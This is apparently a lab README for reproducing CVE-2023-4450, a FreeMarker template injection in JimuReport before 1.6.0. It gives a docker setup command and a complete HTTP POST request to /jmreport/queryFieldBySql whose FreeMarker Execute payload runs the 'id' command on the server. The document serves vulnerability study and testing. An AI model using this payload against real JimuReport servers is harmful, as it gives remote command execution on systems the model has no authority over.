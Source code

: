 # JimuReport FreeMarker Server Side Template Injection RCE (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JimuReport is a open source visualization report platform. In the version prior to 1.6.0, there is a FreeMarker server side template injection (SSTI) issue that is able to execute arbitrary commands.

References:

- <https://github.com/advisories/GHSA-j8h5-8rrr-m6j9>
- <https://whoopsunix.com/docs/java/named%20module/>

## Vulnerable Environment

Execute following command to start a JimuReport 1.6.0 server:

```
docker compose up -d
```

Wait a few seconds and you can see the index page of JimuReport on `http://your-ip:8085`.

## Exploit

Send the following request to execute the FreeMarker template `<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("id")}`:

```
POST /jmreport/queryFieldBySql HTTP/1.1
Host: localhost:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 100

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"id\")}'" }
```

The `id` command has been executed successfully:

![](1.png)
